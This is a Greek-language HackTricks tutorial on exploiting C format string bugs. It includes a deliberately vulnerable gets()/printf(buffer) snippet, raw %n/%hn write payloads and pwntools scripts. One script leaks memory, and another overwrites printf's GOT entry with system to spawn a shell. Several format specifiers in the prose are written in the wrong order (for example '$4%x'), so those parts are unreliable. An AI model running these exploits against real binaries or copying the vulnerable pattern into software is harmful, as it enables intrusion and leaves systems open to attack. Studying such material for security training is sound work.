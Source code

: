 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Στην C **`printf`** είναι μια συνάρτηση που μπορεί να χρησιμοποιηθεί για να **εκτυπώσει** κάποιο κείμενο. Η **πρώτη παράμετρος** που περιμένει αυτή η συνάρτηση είναι το **ακατέργαστο κείμενο με τους μορφοποιητές**. Οι **επόμενες παράμετροι** που αναμένονται είναι οι **τιμές** για να **αντικαταστήσουν** τους **μορφοποιητές** από το ακατέργαστο κείμενο.

Η ευπάθεια εμφανίζεται όταν ένα **κείμενο επιτιθέμενου χρησιμοποιείται ως η πρώτη παράμετρος** σε αυτή τη συνάρτηση. Ο επιτιθέμενος θα είναι σε θέση να δημιουργήσει μια **ειδική είσοδο εκμεταλλευόμενος** τις δυνατότητες της **μορφής printf** για να διαβάσει και να **γράψει οποιαδήποτε δεδομένα σε οποιαδήποτε διεύθυνση (αναγνώσιμη/γραφόμενη)**. Έχοντας έτσι τη δυνατότητα να **εκτελέσει αυθαίρετο κώδικα**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Παραδείγματα:**

* Ευάλωτο παράδειγμα:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Κανονική Χρήση:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Με Ελλείποντες Παραμέτρους:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
### **Πρόσβαση σε Δείκτες**

Η μορφή **`%<n>$x`**, όπου `n` είναι ένας αριθμός, επιτρέπει να υποδείξετε στο printf να επιλέξει την n παράμετρο (από τη στοίβα). Έτσι, αν θέλετε να διαβάσετε την 4η παράμετρο από τη στοίβα χρησιμοποιώντας το printf, μπορείτε να κάνετε:
```c
printf("%x %x %x %x")
```
και θα διαβάζατε από την πρώτη έως την τέταρτη παράμετρο.

Ή θα μπορούσατε να κάνετε:
```c
printf("$4%x")
```
και να διαβάσει απευθείας το τέταρτο.

Σημειώστε ότι ο επιτιθέμενος ελέγχει την παράμετρο `pr`**`intf`**, που σημαίνει ότι** η είσοδός του θα είναι στη στοίβα όταν κληθεί το `printf`, που σημαίνει ότι θα μπορούσε να γράψει συγκεκριμένες διευθύνσεις μνήμης στη στοίβα.

{% hint style="danger" %}
Ένας επιτιθέμενος που ελέγχει αυτή την είσοδο, θα είναι σε θέση να **προσθέσει αυθαίρετη διεύθυνση στη στοίβα και να κάνει το `printf` να τις προσπελάσει**. Στην επόμενη ενότητα θα εξηγηθεί πώς να χρησιμοποιηθεί αυτή η συμπεριφορά.
{% endhint %}

## **Αυθαίρετη Ανάγνωση**

Είναι δυνατόν να χρησιμοποιηθεί ο μορφοποιητής **`$n%s`** για να κάνει το **`printf`** να αποκτήσει τη **διεύθυνση** που βρίσκεται στη **n θέση**, ακολουθώντας την και **να την εκτυπώσει σαν να ήταν μια συμβολοσειρά** (εκτύπωση μέχρι να βρεθεί ένα 0x00). Έτσι, αν η βασική διεύθυνση του δυαδικού είναι **`0x8048000`**, και γνωρίζουμε ότι η είσοδος του χρήστη ξεκινά στη 4η θέση στη στοίβα, είναι δυνατόν να εκτυπωθεί η αρχή του δυαδικού με:
```python
from pwn import *

p = process('./bin')

payload = b'%6$p' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Σημειώστε ότι δεν μπορείτε να βάλετε τη διεύθυνση 0x8048000 στην αρχή της εισόδου γιατί η συμβολοσειρά θα κοπεί στο 0x00 στο τέλος αυτής της διεύθυνσης.
{% endhint %}

## **Αυθαίρετη Εγγραφή**

Ο μορφοποιητής **`$<num>%n`** **γράφει** τον **αριθμό των γραμμένων byte** στη **δεικνυόμενη διεύθυνση** στην παράμετρο \<num> στο stack. Εάν ένας επιτιθέμενος μπορεί να γράψει όσους χαρακτήρες θέλει με το printf, θα είναι σε θέση να κάνει **`$<num>%n`** να γράψει έναν αυθαίρετο αριθμό σε μια αυθαίρετη διεύθυνση.

Ευτυχώς, για να γράψετε τον αριθμό 9999, δεν χρειάζεται να προσθέσετε 9999 "A"s στην είσοδο, για να το κάνετε αυτό είναι δυνατό να χρησιμοποιήσετε τον μορφοποιητή **`%.<num-write>%<num>$n`** για να γράψετε τον αριθμό **`<num-write>`** στη **διεύθυνση που υποδεικνύεται από τη θέση `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Ωστόσο, σημειώστε ότι συνήθως για να γράψετε μια διεύθυνση όπως το `0x08049724` (η οποία είναι ένας ΜΕΓΑΛΟΣ αριθμός για να γραφτεί ταυτόχρονα), **χρησιμοποιείται το `$hn`** αντί για το `$n`. Αυτό επιτρέπει να **γραφούν μόνο 2 Bytes**. Επομένως, αυτή η λειτουργία εκτελείται δύο φορές, μία για τα υψηλότερα 2B της διεύθυνσης και άλλη μία για τα χαμηλότερα.

Επομένως, αυτή η ευπάθεια επιτρέπει να **γραφεί οτιδήποτε σε οποιαδήποτε διεύθυνση (τυχαία εγγραφή).**

Σε αυτό το παράδειγμα, ο στόχος είναι να **επικαλυφθεί** η **διεύθυνση** μιας **λειτουργίας** στον πίνακα **GOT** που θα κληθεί αργότερα. Αν και αυτό θα μπορούσε να εκμεταλλευτεί άλλες τεχνικές τυχαίας εγγραφής για εκτέλεση:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Θα **επικαλυφθεί** μια **λειτουργία** που **λαμβάνει** τα **ορίσματά** της από τον **χρήστη** και θα **δείξει** τη **λειτουργία `system`**.\
Όπως αναφέρθηκε, για να γραφεί η διεύθυνση, συνήθως απαιτούνται 2 βήματα: Πρώτα **γράφονται 2Bytes** της διεύθυνσης και στη συνέχεια τα άλλα 2. Για να το κάνετε αυτό, χρησιμοποιείται το **`$hn`**.

* **HOB** καλείται για τα 2 υψηλότερα bytes της διεύθυνσης
* **LOB** καλείται για τα 2 χαμηλότερα bytes της διεύθυνσης

Στη συνέχεια, λόγω του πώς λειτουργεί η μορφή της συμβολοσειράς, πρέπει να **γραφεί πρώτα το μικρότερο** από \[HOB, LOB] και μετά το άλλο.

Αν HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Αν HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Πρότυπο Pwntools

Μπορείτε να βρείτε ένα πρότυπο για να προετοιμάσετε μια εκμετάλλευση για αυτόν τον τύπο ευπάθειας στο:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ή αυτό το βασικό παράδειγμα από [**εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Άλλα Παραδείγματα & Αναφορές

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, no relro, no canary, nx, no pie, βασική χρήση format strings για να διαρρεύσει η σημαία από τη στοίβα (δεν χρειάζεται να αλλάξει η ροή εκτέλεσης)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, no canary, nx, no pie, format string για να αντικαταστήσει τη διεύθυνση `fflush` με τη λειτουργία win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro, no canary, nx, no pie, format string για να γράψει μια διεύθυνση μέσα στο main στο `.fini_array` (έτσι ώστε η ροή να επαναληφθεί 1 φορά ακόμα) και να γράψει τη διεύθυνση στο `system` στον πίνακα GOT που δείχνει στο `strlen`. Όταν η ροή επιστρέψει στο main, το `strlen` εκτελείται με είσοδο χρήστη και δείχνει στο `system`, θα εκτελέσει τις εντολές που έχουν περαστεί.

{% hint style="success" %}
Μάθε & εξάσκησε το AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθε & εξάσκησε το GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Έλεγξε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Συμμετοχή στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολούθησέ** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιράσου κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
